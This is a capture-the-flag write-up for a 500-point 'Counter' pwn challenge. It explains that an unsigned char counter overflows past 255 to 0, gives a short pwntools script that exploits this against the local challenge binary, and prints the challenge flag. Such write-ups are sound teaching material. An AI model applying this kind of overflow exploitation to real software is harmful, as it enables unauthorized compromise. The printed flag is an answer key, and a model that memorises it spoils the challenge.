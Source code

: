 # Counter - PWN (500 points)
- `Integer overflow` of the `unsigned char variable counter` (line 34 in counter.c)
```
switch (get_num("Choice: ")) {
    case 1:
    counter++;
    break;
```
- Just keep adding 1 to counter until it passes 255 and will be 0
- Script
```py
from pwn import *

chall = process(['./counter'])
print(chall.recv())
for i in range(0,255):
	chall.sendline(b"1")
	print(chall.recv())
chall.sendline(b'3')
print("flag: ",chall.recv())
```
## Flag
``CyberErudites{1NtegeR_0v3rfloWS_ar3_Na$ty}`` 
